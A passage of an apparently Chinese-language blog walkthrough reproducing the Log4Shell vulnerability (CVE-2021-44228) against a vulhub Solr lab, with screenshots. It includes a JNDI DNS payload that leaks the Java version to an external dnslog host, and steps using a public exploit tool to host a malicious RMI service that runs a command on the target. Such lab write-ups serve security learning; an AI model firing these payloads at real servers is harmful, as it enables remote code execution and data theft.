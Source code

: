 ```
				后面就return resolver.lookup(event, variableName); 这里就是返回
					↓
					接着这里继续跟进resolver.lookup的调用的话，这个lookup函数体内部作用是通过:字符分隔
					然后通过传入jndi四个字符到strlookupmap.get来找到jndi访问地址然后截取到后面的rmi用jndi访问地址来lookup

```

## 漏洞复现


vulhub找到log4j开一个CVE\-2021\-44228靶场


### dns


![在这里插入图片描述](https://img2024.cnblogs.com/blog/3392862/202409/3392862-20240919093351189-1721041516.png)


* 先用dns协议进行jndi注入看是否存在log4j漏洞
`${jndi:dns://${sys:java.version}.example.com}`是利用JNDI发送DNS请求的Payload，自己修改example.com为你自己的dnslog域名
`http://xxxxx:8983/solr/admin/cores?action=${jndi:dns://${sys:java.version}.xxxx.ceye.io}`
![在这里插入图片描述](https://img2024.cnblogs.com/blog/3392862/202409/3392862-20240919093351124-1629408715.png)


接着查看我们的dnslog日志，发现确实存在log4j漏洞
![在这里插入图片描述](https://img2024.cnblogs.com/blog/3392862/202409/3392862-20240919093351126-321143917.png)


### rmi


那么现在开始进行rmi或者ldap攻击了
这里就直接使用利用工具：
[https://github.com/welk1n/JNDI\-Injection\-Exploit](https://github.com)
开启恶意服务器：
设置好\-C执行的命令
（\-A 默认是第一张网卡地址，\-A 你的服务器地址，我这里就默认了）


![在这里插入图片描述](https://img2024.cnblogs.com/blog/3392862/202409/3392862-20240919093351130-932240066.png)
接着先查看下容器内不存在`/tmp/success_hacker`文件，因为我们\-C写的是创建该文件
![在这里插入图片描述](https://img2024.cnblogs.com/blog/3392862/202409/3392862-20240919093351087-1410886291.png)
接着就可以进行rmi攻击了，复制上面搭建好的rmi服务：`rmi://xxxxxxxxx:1099/dge0kr`
![在这里插入图片描述](https://img2024.cnblogs.com/blog/3392862/202409/3392862-20240919093351170-293173503.png)
再次查看就会发现已经创建成功了
![在这里插入图片描述](https://img2024.cnblogs.com/blog/3392862/202409/3392862-20240919093351092-1331833961.png)
PS：如果没有成功的话就多试几个rmi或者ldap服务地址，jdk8还是jdk7都试一下，以前我讲错了以为是1\.7和1\.8是本地开启工具使用的jdk版本，其实是目标服务器的jdk版本，所以还是那句话，都尝试一下就行，反正我们前面已经用dnslog拖出数据了，证明了是存在漏洞的。
![在这里插入图片描述](https://img2024.cnblogs.com/blog/3392862/202409/3392862-20240919093351087-878866531.png)




---


参考文章：
[https://github.com/zpchcbd/p/16200105\.html](https://github.com)
[https://xz.aliyun.com/t/11056](https://github.com)


